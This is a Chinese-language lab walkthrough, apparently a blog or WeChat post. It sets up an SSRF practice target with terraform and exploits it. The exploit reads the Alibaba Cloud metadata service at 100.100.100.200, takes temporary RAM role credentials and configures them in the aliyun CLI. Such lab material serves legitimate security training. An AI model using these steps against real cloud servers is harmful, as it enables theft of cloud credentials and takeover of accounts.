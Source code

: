   
部署 SSRF 靶场  
  
  
```
terraform init
terraform apply
```  
  
  
  
如果 init 初始化比较慢，挂上代理即可  
  
在 apply 期间，会提示 Enter a value，这时输入 yes 回车即可。  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/0Z0LqMyVGaQibZCffphFs1LSnciaiaGmiaU2DNgf0xspPYHVIicYlS3hNl6AbJGIiazChrgYFgCQQSr3mBOTVzMbPpsw/640?wx_fmt=png "")  
  
  
在 Outputs 处，可以看到返回的靶场地址，访问这个地址，可以看到 SSRF 测试靶场页面，这时就说明环境搭建完了。  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/0Z0LqMyVGaQibZCffphFs1LSnciaiaGmiaU2wkOibagPT0qBk9TOaFq5L4LvVH2oblIicY9aKqX9AdicIHbnVTicPApibbA/640?wx_fmt=png "")  
  
  
**0x02 环境利用**  
  
  
  
当前环境存在 SSRF 漏洞，但和常规 SSRF 所处的环境不同，这里的 SSRF 漏洞是出现在云服务器上的，这也就意味着我们可以通过这个 SSRF 漏洞获取到该服务器的元数据信息。  
  
访问元数据  
  
  
```
http://100.100.100.200/latest/meta-data
```  
  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/0Z0LqMyVGaQibZCffphFs1LSnciaiaGmiaU2jWLvjY18og6dl1xYpKF7bfJMpz4j8NsxOSm1eY4YJQZJHcxgia2X6Wg/640?wx_fmt=png "")  
  
  
在返回的结果中，可以看到当前环境存在 ram/ 目录，这也就意味着当前云服务器配置了 RAM 角色，这样我们可以获取到临时凭证了。  
  
通过元数据获取临时凭证。  
  
  
这里 URL 中的 huocorp-terraform-goat-role 是 RAM 角色名称，可以通过访问 http://100.100.100.200/latest/meta-data/ram/security-credentials/ 获取到。  
  
```
http://100.100.100.200/latest/meta-data/ram/security-credentials/huocorp-terraform-goat-role
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/0Z0LqMyVGaQibZCffphFs1LSnciaiaGmiaU2dMjKPcO90rN3X2mObKOv8otEt4dUZiaaqWmzILibApV5CmibJPzdJBjCw/640?wx_fmt=png "")  
  
  
将临时凭证配置到 aliyun 命令行工具里。  
  
```
aliyun configure --mode StsToken
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/0Z0LqMyVGaQibZCffphFs1LSnciaiaGmiaU2CpJdLiaIDYvymibuQzXt49ZL1OvbDbtEO5rEWSHkDNRGLPCmWzXVIBibw/640?wx_fmt=png "")  
  